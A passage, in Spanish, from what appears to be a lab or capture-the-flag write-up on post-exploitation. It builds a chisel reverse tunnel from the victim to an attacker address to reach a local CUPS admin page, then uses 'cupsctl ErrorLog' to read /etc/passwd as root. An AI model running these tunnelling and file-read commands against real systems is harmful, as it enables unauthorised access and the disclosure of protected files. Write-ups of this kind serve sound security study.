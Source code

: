 ```shell
netstat -ant
```
Al parcer encontramos un puerto escuchando muy interesante  `127.0.0.1:631`

Voy a instalar chisel para poder hacer portforwarding a mi máquina para ello nos clonamos el repositorio.

```shell
git clone https://github.com/jpillora/chisel
cd chisel && go build -ldflags="-s -w"
sudo ./chisel server -p 8000 --reverse
``` 

Nos pasamos el fichero y nos ponemos como cliente en la máuna victima haciendo el portforwarding

```shell
./chisel client 10.10.14.107:8000 R:631:127.0.0.1:631
```

De esta manera obtenemos una página web que muestra una pagina de administración de CUPS.

Si hacemos click en `View Error log`muestra el contenido de error.log.
Como CUPS esta funcionado como root por defecto podemos leer archivo utilizando èrrorLog`de esta manera podemos usar el siguiente comando.

```shell
cupsctl ErrorLog="/etc/passwd"
```

Posteriormente haciendo una petición `curl http://localhost:631/admin/log/error_log?` nos muestra el contendio del fichero.